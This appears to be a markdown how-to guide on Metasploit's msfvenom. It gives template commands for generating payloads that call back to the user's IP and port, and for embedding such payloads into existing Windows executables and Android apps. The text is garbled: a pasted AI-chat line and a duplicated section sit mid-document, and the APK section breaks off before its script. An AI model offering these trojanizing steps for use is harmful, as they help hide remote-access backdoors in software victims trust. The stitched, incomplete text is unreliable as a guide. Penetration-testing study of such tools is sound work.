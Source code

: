 # Msfvenom Practical Guide

## Generating Standalone Payloads and Listeners

Msvenom is a powerful tool in the Metasploit framework used for payload generation. It allows you to create payloads for various platforms.

### Basic Payload Generation

To generate a basic payload for a specific platform, use the following command:

```bash
msfvenom -p [payload] -f [format] LHOST=[your_IP] LPORT=[port] -o [output_filename]
```
      Replace [payload] with the desired payload.
      Specify the format with -f (e.g., exe, apk, etc.).
      Set your IP with LHOST and the desired port with LPORT.
      Save the output with -o [output_filename].

# Embedding Payloads to exe, APK

Embedding into Windows Executable (exe)

You can embed a payload into an exe file using the following steps:

 Generate the payload as discussed earlier.
    Find a suitable exe file for embedding.

`msfvenom -x [existing_exe] -k -p [payload] LHOST=[your_IP] LPORT=[port] -o [output_filename]`

Replace [existing_exe] with the path to the existing exe file.

# Certainly! Here's the Markdown code for your .md file:

markdown



`msfvenom -x [existing_exe] -k -p [payload] LHOST=[your_IP] LPORT=[port] -o [output_filename]`

Replace [existing_exe] with the path to the existing exe file.

# Embedding into Android Application (APK)

Embedding into an APK involves using the Metasploit resource script.

Generate the payload.
Create a resource script (e.g., embed.rc) with the following:
